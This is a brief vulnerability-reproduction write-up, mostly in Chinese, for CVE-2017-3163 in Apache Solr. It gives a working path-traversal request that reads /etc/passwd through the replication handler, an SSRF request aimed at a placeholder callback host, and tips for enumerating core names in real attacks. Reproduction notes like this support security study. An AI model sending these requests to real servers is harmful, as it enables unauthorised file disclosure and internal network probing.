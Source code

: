 CVE-2017-3163复现
--

Target Solr version: <5.5.4 and <6.4.1 Requirements: none

`GET /solr/db/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1`

There is also an unfixed SSRF here, but with the existence of "shards" feature it's hardly considered as a vulnerability:

`GET /solr/db/replication?command=fetchindex&masterUrl=http://callback/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb`

此处我只复现一下文件读取吧

![](assets/res.png)

这里需要注意上面链接的db是core的名字，这个需要根据真实的攻击场景自行更改，我们在真实环境中可以利用

`/solr/admin/cores?wt=json`获取

![](assets/get_core.png)

写poc的时候也需要注意这一点



### 注

我的复现环境: solr 4.3.1

旧版本的solr是需要部署war包的。部署方式参考连接：

https://lucien-zzy.iteye.com/blog/2002087

https://github.com/artsploit/solr-injection
